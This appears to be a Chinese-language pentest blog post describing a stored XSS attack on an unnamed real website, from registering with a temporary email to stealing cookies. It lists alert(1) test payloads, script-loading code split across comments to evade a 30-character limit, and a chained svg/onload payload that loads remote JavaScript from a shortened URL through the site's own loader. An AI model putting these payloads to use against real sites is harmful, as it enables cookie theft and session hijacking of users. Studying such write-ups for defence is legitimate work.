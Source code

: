 +++
date = "2016-07-17T23:30:54+08:00"
description = ""
draft = false
tags = ["xss"]
title = "XSS实例"
topics = ["Pentest"]

+++

首先感谢凯神的指导

### 0x00 注册账号
先得到一个临时邮箱，然后注册账号
![xss实例申请临时邮箱](/img/post/xss_example_get_temporary_email.png)

![xss实例注册账号](/img/post/xss_example_register.png)

### 0x01 找输入输出点
![xss实例添加关注](/img/post/xss_example_add_topic.png)

![xss实例输入输出点](/img/post/xss_example_input_output_point.png)

### 0x02 尝试构造payload
payload用如下的即可：
```
<script>alert(1)</script>
"><script>alert(1)</script><a
```
但是这个要在点击删除时payload才起作用
![xss实例payload test](/img/post/xss_example_payload_test.png)
```
也可用<img src=1 onerror=alert(1) />自动加载，但也要点击删除按钮才能起作用  
但是我们若想充分利用则需要远程加载自己的js
```

### 0x03 加载自己的js
* 此时的限制条件为：

```
* 30个字符
* script标签不能自己触发
```

* 只能构造类似下面的语句自己加载脚本：

```
a=document.createElement('script');
a.src="www.xxx.com";
document.head.appendChild(a);
```

* 可以用如下方法分割，多次添加：

```
a=document.createE/*
*/lement('script');/*
*/a.src="www.xxx.com";/*
*/document.head.app/*
*/endChild(a);

但此处不可行，考虑直接用JQuery等的函数getScript(URL)直接加载url，然而此处依然不行
```

* 查找
![xss实例发现网站自己的加载js的函数](/img/post/xss_example_find_loadjs.png)

* 构造payload
![xss实例使用js短网址](/img/post/xss_example_short_url.png)

```
使用如下payload：
<svg/onload="b='http://t.i'">
<svg/onload="b+='m/16ap6'">
<svg/onload="$loadJs(b)">
```

### 0x04 得到Cookie
![xss实例得到Cookie](/img/post/xss_example_get_cookie.png)
